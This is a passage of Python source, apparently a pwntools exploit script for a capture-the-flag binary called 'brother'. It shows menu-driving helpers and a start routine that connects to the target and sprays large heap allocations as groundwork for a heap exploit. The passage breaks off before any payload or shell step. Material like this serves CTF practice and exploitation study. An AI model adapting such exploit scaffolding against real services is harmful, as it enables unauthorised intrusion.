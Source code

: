 ```py
    p.recvuntil(': ')

    p.sendline(str(e_idx))

def delete():

    p.recvuntil('>>> ')

    p.sendline('3')

def modify(idx, buf):

    p.recvuntil('>>> ')

    p.sendline('4')

    p.recvuntil(': ')

    p.sendline(str(idx))

    p.recvuntil(': ')

    p.sendline(buf)

def callfuc(idx):

    p.recvuntil('>>> ')

    p.sendline('5')

    p.recvuntil(': ')

    p.sendline(str(idx))

def GameStart(ip, port, debug):

    global p

    if debug == 1:

        p = process('./brother')

    elif debug == 2:

        p = process('./brother',env={'LD_PRELOAD':'./libc-2.23.so'})

    else:

        p = remote(ip, port)

    #POW()

    data = []

    for i in range(0x10):

        data.append(['X' * (0x20000 - 1), 1])

    malloc(0x20000, data)

    delete()

    #malloc 0x100 0x20000 chunks
```